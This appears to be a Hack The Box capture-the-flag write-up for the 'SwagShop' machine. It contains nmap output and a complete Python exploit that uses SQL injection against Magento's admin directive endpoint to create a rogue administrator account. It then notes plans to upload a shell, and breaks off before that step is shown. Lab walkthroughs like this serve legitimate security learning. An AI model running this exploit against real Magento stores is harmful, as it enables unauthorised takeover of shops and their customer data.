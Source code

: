 # Write-up of swagshop HTB

We will start off with nmap scan of the ip 10.10.10.140 

```
[sarthak@sarthak swagshop]$ nmap -sV 10.10.10.140 -v -Pn
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 11:54 IST
NSE: Loaded 43 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 11:54
Completed Parallel DNS resolution of 1 host. at 11:54, 0.01s elapsed
Initiating Connect Scan at 11:54
Scanning 10.10.10.140 [1000 ports]
Discovered open port 22/tcp on 10.10.10.140
Discovered open port 80/tcp on 10.10.10.140
Completed Connect Scan at 11:55, 34.33s elapsed (1000 total ports)
Initiating Service scan at 11:55
Scanning 2 services on 10.10.10.140
Completed Service scan at 11:55, 6.52s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.140.
Initiating NSE at 11:55
Completed NSE at 11:55, 1.12s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Nmap scan report for 10.10.10.140
Host is up (0.25s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http    Apache httpd 2.4.18 ((Ubuntu))
1045/tcp filtered fpitp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.42 seconds
```
We have port 80 opened let's see what we got there ...

<<picture 007>>

Here we have Magento platform running,So after googling of 15 min we found a [exploit](https://www.exploit-db.com/exploits/37977) which will create a admin account for us,So let's quickly download and run this exploit(ip address has been already changed inside the exploit)

<<picture 008>>

hmm...it doesn't work ..after reviewing the source code of exploit program was looking for the '/admin/' path let's first find it manually...

<picture 009>

Notice the url here it's weird that it has http://10.10.10.140/index.php/customer/
So what i did here was replaced /customer/ with /admin/ and now we can see the admin panel

<<picture 10>>

Now we will modify the exploit and then run

FINAL EXPLOIT CODE:-
```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

```
Now let's seee

<<picture 11>>

we have creds now after logging in i looked up for exploits to get shell and found one [video](https://www.youtube.com/watch?v=pDKb_LOoDes) on youtube in which that person has uploaded shell by using the filesystem section but then i realised we don't have that section 

So after googling around, I found the [extension](https://pluginarchive.com/magento/magpleasure_filesystem) and way to upload it ...








